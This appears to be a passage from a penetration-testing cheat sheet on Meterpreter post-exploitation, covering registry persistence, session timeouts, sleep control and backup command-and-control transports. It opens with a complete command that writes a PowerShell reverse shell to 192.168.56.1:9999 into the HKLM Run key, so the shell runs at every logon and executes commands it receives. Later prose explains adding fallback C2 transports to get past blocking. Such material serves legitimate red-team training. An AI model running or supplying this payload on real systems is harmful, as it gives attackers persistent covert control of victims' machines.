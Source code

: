 example:

#### set a registry to run powershell reverse shell whenever the user logs in:

```
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v -Power -d "powershell -ep bypass -c $client = New-Object System.Net.Sockets.TCPClient('192.168.56.1',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## <mark style="color:red;">Timeout Control</mark>

```
get_timeouts

#  set communication timeout to 900 secs
set_timeouts -c 900
```

## <mark style="color:red;">Sleep Control</mark>

makes current meterpreter session go to sleep for specific period of time and wake up again.

```
sleep
sleep 10 # sleep for 10 secs
```

## <mark style="color:red;">Transports</mark>

Once Meterpreter shellcode has been run; whether from a phish, or some other means, it will reach out to the attacker’s Command and Control (C2) server over some network transport, such as HTTP, HTTPS or TCP. However, in an unknown environment, a successful connection is not guaranteed: firewalls, proxies, or intrusion prevention systems might all prevent a certain transport method from reaching out to the public Internet.Repeated trial and error is sometimes possible, but not always. For a phish, clicks come at a premium. Some exploits only give you one shot to get a shell, before crashing the host process. Meterpreter has the ability to have multiple “transports” in a single implant. A transport is the method by which it communicates to the Metasploit C2 server: TCP, HTTP, etc. Typically, Meterpreter is deployed with a single transport, having had the payload type set in msfvenom or in a Metasploit exploit module (e.g. meterpreter\_reverse\_http).

#### But after a connection has been made between the implant and the C2 server, an operator can add additional, backup transports. This is particularly useful for redundancy: if one path goes down (e.g. your domain becomes blacklisted), it can fall back to another.

#### <mark style="color:green;">A transport is defined by its properties:</mark>
